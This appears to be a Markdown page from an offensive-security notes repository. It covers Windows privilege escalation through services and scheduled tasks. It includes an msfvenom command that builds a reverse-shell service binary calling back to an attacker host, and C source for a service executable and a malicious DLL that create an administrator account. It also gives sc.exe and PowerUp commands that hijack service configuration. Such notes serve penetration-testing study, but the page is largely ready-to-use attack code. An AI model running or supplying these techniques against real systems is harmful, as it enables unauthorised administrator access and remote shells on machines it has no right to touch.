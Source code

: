 ```yaml
---
label: Tasks and Services Abuse
---
```


# Tasks and Services Abuse to Privilege Escalation

## Services

A Windows Service is a background executable managed by the SCM (Service Control Manager) and is similar to daemons on Linux. Services can be managed by the Services snap-in, PowerShell, or the `sc.exe` command line tool. Windows uses the `LocalSystem`, `Network Service`, and `Local Service` user accounts to run its own services. Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

How to restart a service:

```powershell
# Stop service
net stop $service
Stop-Service $service_name

# Start service
net start $service
Start-Service $service_name

# Reboot machine
shutdown /r /t 0 
```

### Binary hijacking

Each Windows service has an associated binary file. These binary files are executed when the service is started. If a lower authorized user is able to swap a binary that works as a service with higher privileges, there is a privilege escalation possibility. Once the service is restarted, the attacker's binary will be executed with the privileges of the service, such as `LocalSystem`.

PowerUp:

```powershell
# Get hijackable executables
Get-ModifiableServiceFile
```

Msfvenom has a special module for generating service binaries for Windows:

```powershell
# Generate rev-shell service executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=$port -f exe-service -o $output
```

You can also write something custom in C using the `system()` function:

```c
#include <stdlib.h>

int main ()
{
  system("net user $user password123! /add");
  system("net localgroup Administrators $user /add");
  
  return 0;
}
```

Compilation:

```bash
x86_64-w64-mingw32-gcc main.c -o main.exe
```

### DLL hijacking

By listing installed software or running services, we can find binaries vulnerable to DLL hijacking. If the binary is vulnerable to DLL hijacking (you can check it on the Internet), we can hijack the default DLL path and insert our own malicious DLL instead. Then wait until this binary is run (by the service or another user) and our malicious DLL file is executed with the other user's permissions.

> **REQUIREMENT**: Vulnerable DLL path must be writable for the current user to add inject a malicious DLL.  

How to find binaries vulnerable to DLL hijacking? One way is to use `Process Monitor` tool but unfortunately it requires to be run with administrator privileges. A workaround for this problem is to copy the binary to our local machine in order to investigate it further. Using `Process Monitor` we can identify unsuccessful attempts to access non-existent DLLs. These are the places where we want to inject our own malicious one.

The simplest malicious DLL in C:

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(HANDLE hModule, DWORD reason, LPVOID lpReserved ) 
{
  switch (reason)
  {
    case DLL_PROCESS_ATTACH:
      int i;
      i = system("net user $user password123! /add");
      i = system("net localgroup administrators $user /add");
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    
    return TRUE;
}
```

Compilation:

```bash
x86_64-w64-mingw32-gcc main.cpp --shared -o main.dll
```

### Service modification

The service ACL might allow to reconfigure service settings. This allows an attacker to point a malicious executable to the service and even change the account which the executable is run with.

> **NOTE**: By changing service binary path to a _CMD_ command, it is possible to execute shell command after service restart.

[Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) tool might be necessary to check a service ACL .

```powershell
# Check the service ACL
accesschk64.exe -qlc $svc_name             

# Reconfigure service: run :exe-path with Local SYSTEM account
sc.exe config $svc_name binPath= "$exe_path" obj= LocalSystem
```

PowerUp module:

```powershell
# List modifiable services
Get-ModifiableService -Verbose              

# Abuse service and add user to local Administrators group
Invoke-ServiceAbuse -Name $service -UserName $user
```

#### Unquoted service paths

If the service's executable points to an unquoted path with spaces, SCM tries to execute firt binary which is the first part of the unqoted path. This SCM feature is basically disgusting but it works like that. It allows an attacker to put malicious service binary in the "wrong" path and run it before a legit one will be executed.

Example:

```text
Unquoted binary path : C:\MyPrograms\Disk Sorter.exe

1st execution attempt: C:\MyPrograms\Disk.exe
2st execution attempt: C:\MyPrograms\Disk Sorter.exe
```

Indentify unquoted binary paths:

```powershell
# List potentially vulnerable service binaries
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```powershell
# List all services and their binaries
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# PowerUp module
Get-ServiceUnqoated -Verbose           
```

> **NOTE**: To drop an executable in the root `C:\` directory you need to actually fhave admin privileges so the unquoted `C:\Program Files (x86)\...` is basically useless.

For the exploitation we need to have rights to copy the binary to the vulnerable location and restart the service (or the entire system):

```powershell
# Check path permissions
icacls "C:\path\to\write"
```

## Scheduled Tasks

If the task runs periodically as `NT AUTHORITY\SYSTEM` or as an administrative user, then a successful attack could lead us to privilege escalation.

```powershell
# Get all scheduled tasks
schtasks /query /fo LIST /v

# Get paths of scheduled task binaries
schtasks /query /fo LIST /v | findstr /B /C:"Task To Run"

# Get scheduled tasks
Get-ScheduledTask
```

### Binary replacement

The most common tactic to exploit a scheduled task (when it's run on behalf of another user) is to replace it's binary. Sufficient permissions are required.

```powershell
# Check fule permissions
icacl $target_file
```
